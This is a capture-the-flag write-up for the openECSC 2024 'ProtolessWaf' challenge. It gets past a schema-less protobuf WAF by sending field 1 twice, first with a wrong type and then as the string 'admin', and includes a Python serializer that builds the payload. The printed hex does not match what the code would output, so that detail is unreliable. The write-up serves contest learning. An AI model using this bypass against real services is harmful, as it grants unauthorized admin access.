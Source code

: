 # openECSC 2024 - Round 1

## [misc] ProtolessWaf (146 solves)
I found this cool parser for protobuf that does not require a .proto file. I'm using it in a WAF to prevent admin access to my server, I hope it works as expected.

Site: [http://protolesswaf.challs.open.ecsc2024.it](http://protolesswaf.challs.open.ecsc2024.it)

Author: Giovanni Minotti <@giotino>

## Solution 

We are presented with a web application that accept a protobuf payload and a WAF that shields it from gaining admin access to obtain the flag.

The application has a standard protobuf implementation, while the WAF has a custom implementation that does not require a `.proto` file, since it can detect the field type.

Protobuf considers the field type described in the `.proto` file, discarding any field that does not match the expected type. However, the WAF does not require a `.proto` file, so it takes the first type as the expected type.

We can craft a payload that contains the field with a wrong type and the same field with the `.proto` type, in this order. The WAF will accept the field with the wrong type and use it to verify that the user is not admin, but the application will take the value of the field with the correct type.

Payload (before serialization):
```python
{"field_number": 1, "type": "varint", "value": 1337},
{"field_number": 1, "type": "length-delimited", "value": b"admin"}
```

Payload (after serialization): `08c0c4070a0561646d696e`

The following code block contains the implementation of a custom serializer that can be used to craft the payload:

```python
import struct


def create_byte_from_field_number_and_type(field_number, wire_type):
    return (field_number << 3) | wire_type


def encode_varint(value):
    result = b""
    while True:
        byte = value & 0x7F
        value >>= 7
        if value:
            result += bytes([byte | 0x80])
        else:
            result += bytes([byte])
            break
    return result


def build_message(fields):
    message = b""
    for field in fields:
        wire_type = 0
        if field["type"] == "varint":
            wire_type = 0
            message += bytes(
                [
                    create_byte_from_field_number_and_type(
                        field["field_number"], wire_type
                    )
                ]
            )
            message += encode_varint(field["value"])
        elif field["type"] == "fixed64":
            wire_type = 1
            message += bytes(
                [
                    create_byte_from_field_number_and_type(
                        field["field_number"], wire_type
                    )
                ]
            )
            message += struct.pack("<Q", field["value"])
        elif field["type"] == "length-delimited":
            wire_type = 2
            message += bytes(
                [
                    create_byte_from_field_number_and_type(
                        field["field_number"], wire_type
                    )
                ]
            )
            message += encode_varint(len(field["value"]))
            message += field["value"]
        elif field["type"] == "fixed32":
            wire_type = 5
            message += bytes(
                [
                    create_byte_from_field_number_and_type(
                        field["field_number"], wire_type
                    )
                ]
            )
            message += struct.pack("<I", field["value"])
    return message


message = build_message(
    [
        {"field_number": 1, "type": "varint", "value": 1337},
        {"field_number": 1, "type": "length-delimited", "value": b"admin"},
    ]
)

print(message.hex())
```
